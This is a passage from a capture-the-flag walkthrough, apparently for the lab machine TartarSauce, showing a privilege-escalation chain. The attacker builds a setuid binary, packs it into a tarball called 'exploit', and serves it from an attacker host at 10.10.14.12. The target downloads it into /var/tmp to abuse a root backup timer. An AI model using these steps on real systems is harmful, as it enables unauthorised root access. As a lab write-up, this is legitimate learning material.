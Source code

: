 Compile the program.

```text
gcc -m32 -o setuid setuid.c
```

* **-m32:** 32 bit architecture since the target machine is running a 32 bit os
* **-o:** output file

Then set the SUID bit on the compiled program.

```text
root@kali:~/Desktop/var/www/html# chmod u+s setuidroot@kali:~/Desktop/bla1/var/www/html# ls -la
total 24
drwxr-xr-x 2 root root  4096 Jan 18 11:24 .
drwxr-xr-x 3 root root  4096 Jan 18 10:09 ..
-rwsr-xr-x 1 root root 15532 Jan 18 11:24 setuid
```

Since we’re running as root in kali \(our attack machine\), the owner of the file is root and therefore the SUID bit allows a non-privileged user to execute the file with root privileges.

Now compress the entire _var_ directory and save it in the file _exploit_.

```text
tar -zcvf exploit var
```

Set up a python server on your attack machine.

```text
python -m SimpleHTTPServer 5555
```

On your target machine, download the compressed exploit file in the directory _/var/tmp_.

```text
http://10.10.14.12:5555/exploit
```

Now wait for the _backuperer_ scheduled service to run and create the backup file. We know this happens every 5 minutes. To view how much time is left before the scheduled service is going to run again, use the following command.

```text
systemctl list-timers
```

When the service is run, view the content of the directory.

```text
onuma@TartarSauce:/var/tmp$ ls -la
total 11280
drwxrwxrwt  8 root  root      4096 Jan 18 21:01 .
drwxr-xr-x 14 root  root      4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 11511681 Jan 18 21:01 .e84f032e69e2e221528b5c1c2ea7fa946a905584
-rw-r--r--  1 onuma onuma     2765 Jan 18 11:46 exploit
drwx------  3 root  root      4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root      4096 Jan 18 20:41 systemd-private-6490911d22fe49afb4fe34c1971285c9-systemd-timesyncd.service-5H4XIC
....
```
